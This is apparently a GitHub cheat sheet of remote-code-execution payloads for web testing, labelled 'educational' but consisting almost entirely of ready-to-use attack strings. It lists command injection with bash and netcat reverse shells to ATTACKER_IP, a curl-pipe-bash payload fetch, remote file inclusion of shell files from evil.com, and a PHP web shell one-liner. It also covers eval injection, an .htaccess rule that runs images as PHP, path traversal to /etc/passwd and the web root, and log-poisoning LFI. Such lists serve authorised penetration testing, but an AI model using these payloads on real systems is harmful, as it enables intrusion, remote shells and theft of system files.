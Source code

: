 # 🛡 RCE Exploitation Vectors
_By CybrX1337 – BURPSUITE_

⚠ **Educational / Authorized Testing Only**

---

## 1. Command Injection Payloads

; id

&& whoami

| uname -a

|| ls -la

`whoami`

$(whoami)

; /bin/bash -c "echo hacked > /tmp/hacked.txt"

; /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

&& /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

| nc -e /bin/sh ATTACKER_IP 4444

; nc -e /bin/sh ATTACKER_IP 4444

&& nc -e /bin/sh ATTACKER_IP 4444

; ping -c 5 ATTACKER_IP

| ping -c 5 ATTACKER_IP

&& ping -c 5 ATTACKER_IP

; curl http://ATTACKER_IP/shell.sh | bash

| curl http://ATTACKER_IP/shell.sh | bash

; echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

| cat /etc/passwd

&& cat /etc/passwd

Replace ATTACKER_IP with your own IP for reverse shell commands.

---

## 2. Remote File Inclusion (RFI) Payloads

?page=http://evil.com/shell.txt

?page=http://evil.com/shell.txt?cmd=id

?page=http://evil.com/shell.txt%00

?page=php://filter/convert.base64-encode/resource=http://evil.com/shell.txt

?page=http://evil.com/shell.txt%23

?page=http://evil.com/shell.txt%0a

?page=http://evil.com/shell.txt%0d%0a

?page=http://evil.com/shell.txt%09

?page=\\evil.com\shell.txt

?page=//evil.com/shell.txt

?page=./http://evil.com/shell.txt

?page=php://input

?page=php://input?cmd=id

?page=php://filter/read=convert.base64-encode/resource=http://evil.com/shell.txt

?page=expect://id

?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=

?page=ftp://evil.com/shell.txt

?page=http://evil.com/shell.txt?cmd=ls+-la

?page=http://evil.com/shell.txt?cmd=uname+-a

?page=http://evil.com/shell.txt?cmd=whoami

?page=http://evil.com/shell.txt?cmd=nc+-e+/bin/bash+attacker_ip+port

?page=http://evil.com/shell.txt%00.jpg

---

## 3. Unsafe eval() Injection Payloads

?code=system('id')

?code=exec('whoami')

?code=passthru('ls -la')

?code=assert($_GET[cmd])

---

## 4. Post-upload Execution Triggers

Using .htaccess to treat .jpg as PHP:

AddType application/x-httpd-php .jpg

Overwrite existing script by path traversal:

../../../../var/www/html/shell.php

---

## 5. Path Traversal Payloads (for LFI, File Overwrite, or Upload Bypass)

../../../../../../etc/passwd

../../../var/www/html/shell.php

../../../../../../tmp/shell.php

..%2f..%2f..%2f..%2fetc/passwd

..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts

....//....//....//....//etc/passwd

../../../../../../var/log/apache2/access.log

../../../../../../var/log/nginx/access.log

../../../../../../proc/self/environ

../../../../../../dev/shm/shell.php

../../../../../../tmp/shell.php

../uploads/../../shell.php

---

## 6. Local File Inclusion (LFI) + Log Poisoning Payload Example

Inject into access log or user agent:

<?php system($_GET['cmd']); ?>

Access via LFI:

?page=../../../../var/log/apache2/access.log&cmd=id

---

## 7. File Upload Path Traversal Example

Upload filename:

../../../../var/www/html/shell.php

If the upload function is vulnerable to path traversal, attacker can overwrite web root files.

---

## 8. URL Encoded Variants

..%2f..%2f..%2f..%2fetc/passwd

..%5c..%5c..%5c..%5cwindows\system32\drivers\etc\hosts
